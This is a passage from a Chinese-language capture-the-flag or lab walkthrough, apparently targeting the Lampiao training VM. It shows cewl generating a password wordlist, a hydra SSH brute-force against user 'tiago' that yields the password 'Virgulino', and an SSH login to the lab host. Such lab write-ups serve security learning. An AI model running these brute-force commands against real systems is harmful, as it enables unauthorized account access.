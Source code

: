 发效了一个二维码

扫描之后，发现信息如下：

```
Try harder!muahuahua
```

![image-20220228110230126](https://gitee.com/xxb667/img/raw/master/img/image-20220228110230126.png)

# 2. 漏洞探测

## 2.1 利用cewl获取网站信息

利用cewl获取网站关键信息从而生成一个密码字典：

```
cewl http://192.168.81.139:1898 -w lampiao.txt
```

![image-20220228111522755](https://gitee.com/xxb667/img/raw/master/img/image-20220228111522755.png)

hydra对用户密码进行爆破

利用hydra对用户tiago密码进行爆破：

```
hydra -l tiago -P lampiao.txt 192.168.81.139 ssh
```

得到账户密码：

```
login: tiago   
password: Virgulino
```

![image-20220228112147921](https://gitee.com/xxb667/img/raw/master/img/image-20220228112147921.png)

## 2.2 ssh进行登录

利用ssh进行登录：

```
ssh tiago@192.168.81.139
```

根据提示输入

```
yes
Virgulino （这个就是密码）
```

![image-20220228131442763](https://gitee.com/xxb667/img/raw/master/img/image-20220228131442763.png)

### 查看靶机信息：
